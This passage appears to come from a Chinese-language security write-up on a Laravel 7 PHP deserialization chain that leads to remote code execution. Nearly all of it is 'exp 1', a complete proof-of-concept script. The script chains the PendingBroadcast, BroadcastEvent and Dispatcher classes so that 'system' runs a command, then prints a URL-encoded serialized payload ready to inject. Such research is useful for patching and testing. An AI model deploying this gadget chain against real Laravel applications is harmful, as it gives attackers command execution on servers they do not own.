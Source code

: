 反序列化成功

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5jCFlQQwcNkNbyRCWcYufubbOibsNT28a0HHkkPXK8JeoBG0qR0g1ItVzWD5364iaHrDQxPKTKFcMA/640?wx_fmt=png)

然后利用其它的也可以 (把 laravel 7 所有的继承 ShouldQueue 接口的都列出来了)

*   **exp 1**
    

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc6
# @author: Ricky
*/

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events=$events;
            $this->event=$event;
        }
    }
}

namespace Illuminate\Broadcasting {
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver) {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace {
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Broadcasting\BroadcastEvent('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
}

```
